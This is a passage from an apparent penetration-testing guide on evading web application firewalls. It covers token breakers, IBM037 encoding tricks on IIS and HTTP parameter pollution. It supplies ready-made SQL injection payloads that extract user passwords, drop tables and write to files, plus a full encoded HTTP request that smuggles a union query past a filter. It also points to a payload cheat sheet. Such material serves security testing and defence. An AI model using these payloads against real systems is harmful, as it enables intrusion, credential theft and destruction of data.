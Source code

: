 **13. Token Breakers**

* Attacks on tokenizers attempt to break the logic of splitting a request into tokens with the help of token breakers.
* Token breakers are symbols that allow affecting the correspondence between an element of a string and a certain token, and thus bypass search by signature.
* However, the request must still remain valid while using token-breakers.
* **Case**: Unknown Token for the Tokenizer
  * **Payload**: `?id=‘-sqlite_version() UNION SELECT password FROM users --`
* **Case**: Unknown Context for the Parser \(Notice the uncontexted bracket\)
  * **Payload 1**: `?id=123);DROP TABLE users --`
  * **Payload 2**: `?id=1337) INTO OUTFILE ‘xxx’ --`

> **TIP:** More payloads can be crafted via this [cheat sheet](https://github.com/attackercan/cpp-sql-fuzzer).

**14. Obfuscation in Other Formats**

* Many web applications support different encoding types and can interpret the encoding \(see below\).
* Obfuscating our payload to a format not supported by WAF but the server can smuggle our payload in.

**Case:** IIS

* IIS6, 7.5, 8 and 10 \(ASPX v4.x\) allow **IBM037** character interpretations.
* We can encode our payload and send the encoded parameters with the query.

Original Request:

```text
POST /sample.aspx?id1=something HTTP/1.1
HOST: victim.com
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 41

id2='union all select * from users--
```

Obfuscated Request + URL Encoding:

```text
POST /sample.aspx?%89%84%F1=%A2%96%94%85%A3%88%89%95%87 HTTP/1.1
HOST: victim.com
Content-Type: application/x-www-form-urlencoded; charset=ibm037
Content-Length: 115

%89%84%F2=%7D%A4%95%89%96%95%40%81%93%93%40%A2%85%93%85%83%A3%40%5C%40%86%99%96%94%40%A4%A2%85%99%A2%60%60
```



#### HTTP Parameter Pollution

**Method:**

* This attack method is based on how a server interprets parameters with the same names.
* Possible bypass chances here are:
  * The server uses the last received parameter, and WAF checks only the first.
  * The server unites the value from similar parameters, and WAF checks them separately.
